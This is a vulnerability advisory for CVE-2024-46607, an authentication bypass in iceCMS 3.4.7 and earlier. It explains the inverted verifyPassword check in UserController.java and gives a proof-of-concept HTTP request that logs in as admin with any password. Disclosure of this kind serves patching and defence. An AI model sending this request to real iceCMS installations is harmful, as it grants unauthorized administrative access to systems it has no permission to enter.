 **[CVE-ID]**

CVE-2024-46607

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

Incorrect Access Control

**[Description]**
  The bug is in the loginAdmin method in the UserController.java file. The fundamental reason is a code logic error. The verifyPassword method returns true and false. True represents equality, which means the password entered by the user is correct. False represents inequality, which means the password entered by the user is incorrect. In this if statement, when the password is incorrect, the program continues to run directly. However, when the password is correct, an error is reported.

![pic1](/icecms/PIC/CVE-2024-46607-1.png)


In the implementation of the verifyPassword method, the encrypted password in the database is directly compared with the plaintext password passed in by the user. So it is definitely wrong and the authentication is bypassed directly for login.

![pic2](/icecms/PIC/CVE-2024-46607-2.png)

## POC：

Use Burpsuite to send the login data packet as follows. Or log in directly on the login page and enter any password.

```
GET /User/loginAdmin?username=admin&password=asdasdas HTTP/1.1
Host: [IP]
sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
![pic3](/icecms/PIC/CVE-2024-46607-3.png)


*There is also a same problem in the login function of WebUserController.java.*

